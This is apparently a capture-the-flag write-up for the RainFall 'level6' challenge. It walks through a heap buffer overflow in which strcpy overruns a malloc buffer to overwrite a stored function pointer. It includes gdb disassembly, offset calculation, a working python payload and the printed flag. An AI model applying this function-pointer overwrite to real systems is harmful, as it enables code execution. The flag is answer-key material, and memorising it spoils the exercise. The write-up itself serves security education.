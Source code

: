 in this binary we have 2 calls to `malloc`, one for a buffer we take as an argument and the other that stores `m` function address. there is another function that is not called (`n()`) and since we are using strcpy to copy our argument to our allocated space we can write more than we allocated.

if we inspect our program in gdb we can get the return address of both malloc allocations

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
(gdb) break *0x08048485
Breakpoint 1 at 0x8048485
(gdb) r s
Starting program: /home/user/level6/level6 s

Breakpoint 1, 0x08048485 in main ()
(gdb) ni
0x0804848c in main ()
(gdb) ni
0x08048491 in main ()
(gdb) x $eax
0x804a008:	0x00000000
(gdb) ni
0x08048495 in main ()
(gdb) ni
0x0804849c in main ()
(gdb) ni
0x080484a1 in main ()
(gdb) x $eax
0x804a050:	0x00000000
(gdb) 
```

now that we have both addresses `0x804a008` and `0x804a050` we calculate the offset between them which is `72`, so now we have the number of bytes we have to write to reach function address we want to overwrite.

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 64 + "B" * 8 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
and there you go.